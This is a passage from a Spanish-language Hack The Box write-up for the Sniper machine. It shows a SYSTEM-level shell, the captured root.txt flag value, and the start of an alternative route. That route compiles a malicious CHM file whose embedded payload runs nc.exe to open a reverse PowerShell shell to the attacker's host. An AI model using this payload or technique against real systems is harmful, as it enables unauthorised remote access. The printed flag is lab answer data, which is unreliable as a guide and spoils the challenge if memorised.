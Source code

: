 ```

C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>dir C:\Users\Administrator\Desktop /s
 Volume in drive C has no label.
 Volume Serial Number is AE98-73A8

 Directory of C:\Users\Administrator\Desktop

03/22/2023  10:22 AM    <DIR>          .
03/22/2023  10:22 AM    <DIR>          ..
09/15/2023  12:27 AM                34 root.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               2 Dir(s)   2,403,225,600 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
d7f1325940032e33ac759b19d18693d7

C:\Windows\system32>

```
Hemos logrado conectarnos al sistema con privilegios elevados de "nt authority \system", también capturamos la flag root.txt

### <span style="color: orange;">Captura alternativa de la flag</span>

Falta intentar ahora la conexión con la revershell que nos quedó pendiente. Para éso esta vez vamos a intentar transferir el ejecutable nc.exe a la máquina víctima del usuario Chris, y despues crearemos nuestro nuevo archivo doc.chm con el payload modificado en nuestra máquina virtual Windows; la idea es que el binario chm llame directamente a nc.exe desde el sistema local.

#### <span style="color: gray;">Máquina virtual Windows</span>
```
PS C:\HTB\Sniper> Out-CHM -Payload "C:\users\Chris\downloads\nc.exe 10.10.14.15 443 -e powershell" -HHCPath "C:\Program Files (x86)\HTML Help Workshop\"
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\HTB\Sniper\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


```
